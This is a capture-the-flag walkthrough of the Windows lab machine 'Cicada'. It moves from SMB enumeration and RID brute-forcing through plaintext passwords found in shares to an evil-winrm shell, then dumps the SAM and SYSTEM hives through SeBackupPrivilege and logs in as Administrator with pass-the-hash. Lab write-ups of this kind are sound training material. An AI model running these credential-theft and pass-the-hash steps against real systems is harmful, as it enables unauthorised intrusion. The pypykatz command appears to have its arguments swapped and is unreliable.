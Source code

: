 # Cicada

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :-- | :--- | :--- | :--- |
| 1 | `N/A` | **Nmap Scan & SMB Enumeration** | Performed initial enumeration using **Nmap** to discover open ports. Identified port `445` (SMB) was open. Used **`smbclient`** to access an unsecured share and found a file containing a default password for new employees. |
| 2 | `Michael.wrightson` | **RID Brute-Forcing** | Used **`enum4linux-ng`** to perform a RID brute-force attack on the target. This revealed the username `Michael.wrightson`. Used the default password found earlier to connect and enumerate other user accounts, which revealed the user `david`. |
| 3 | `emily.oscars` | **File Analysis & Password Discovery** | Connected to the SMB share with the `david` credentials. Discovered and downloaded a **backup script**. The script contained a plaintext password for a new user, `emily.oscars`. |
| 4 | `emily.oscars` | **Initial Shell Access** | Gained an initial shell on the system using **`evil-winrm`** with the discovered `emily.oscars` credentials. Located and retrieved the `user.txt` flag. |
| 5 | `Administrator` | **Privilege Escalation** | Enumerated the current user's privileges and found the `SeBackupPrivilege`. Used this privilege to download the `SAM` and `SYSTEM` registry hives. Extracted the **`Administrator` NTLM hash** using **`pypykatz`** and used it to log in with `evil-winrm` and get the `root.txt` flag. |

###  Initial Access

1.  **Nmap Scan & SMB Reconnaissance**:

      - Perform a targeted Nmap scan:
        ```bash
        nmap -sV -sC 10.10.11.35
        ```
      - Use `smbclient` to list the shares without credentials:
        ```bash
        smbclient -L 10.10.11.35
        ```
      - Connect to the "HR" share:
        ```bash
        smbclient //10.10.11.35/HR
        ```
      - Inside the share, download the file containing the password:
        ```bash
        smb: \> ls
        smb: \> get "new_hire_info.txt"
        ```

2.  **RID Brute Force & User Enumeration**:

      - Use `enum4linux-ng` to enumerate users:
        ```bash
        enum4linux-ng -u 'Michael.wrightson' -p 'CicadXXXXXXXXXXXXXXXXXXX' 10.10.11.35
        ```
      - This command will reveal other user accounts, including **david**.

3.  **Find a New Password**:

      - Connect to the SMB share again, this time with the username **david** and the discovered password:
        ```bash
        smbclient //10.10.11.35/david -U david
        ```
      - Password: `aRtXXXXXXXXXXX`
      - Explore the directories to find a backup script and download it:
        ```bash
        smb: \> ls
        smb: \> get "backup_script.ps1"
        ```
      - Examine the script to find the new credentials: `emily.oscars`:`Q!3XXXXXXXXXXXXXX`

4.  **Get the User Flag**:

      - Use `evil-winrm` to connect with the new credentials:
        ```bash
        evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3XXXXXXXXXXXXXX'
        ```
      - Once connected, find the `user.txt` file:
        ```powershell
        ls
        cat user.txt
        ```

###  Privilege Escalation

1.  **Exploit SeBackupPrivilege**:

      - In the `evil-winrm` session, run the following command to check your privileges:
        ```powershell
        whoami /all
        ```
      - This will confirm `SeBackupPrivilege` is enabled.

2.  **Extract Administrator Hash**:

      - Use `evil-winrm`'s built-in functionality to download the `SAM` and `SYSTEM` hives. First, navigate to the directory:
        ```powershell
        cd C:\Windows\System32\config\
        ```
      - Download the files to your local machine:
        ```powershell
        download SYSTEM
        download SAM
        ```
      - On your local machine, use `pypykatz` to extract the password hashes from the downloaded files. **Note**: You may need to install `pypykatz` first (`pip install pypykatz`).
        ```bash
        pypykatz lsa sam --sam SYSTEM --system SAM
        ```
      - This command will output the NTLM hash for the `Administrator` account.

3.  **Final Login & Root Flag**:

      - Use `evil-winrm` to perform a pass-the-hash attack with the Administrator hash. Replace `<ADMIN_HASH>` with the hash you extracted.
        ```bash
        evil-winrm -i 10.10.11.35 -u Administrator -H <ADMIN_HASH>
        ```
      - Once logged in as Administrator, locate and read the `root.txt` file:
        ```powershell
        ls C:\Users\Administrator
        cat C:\Users\Administrator\root.txt
        ```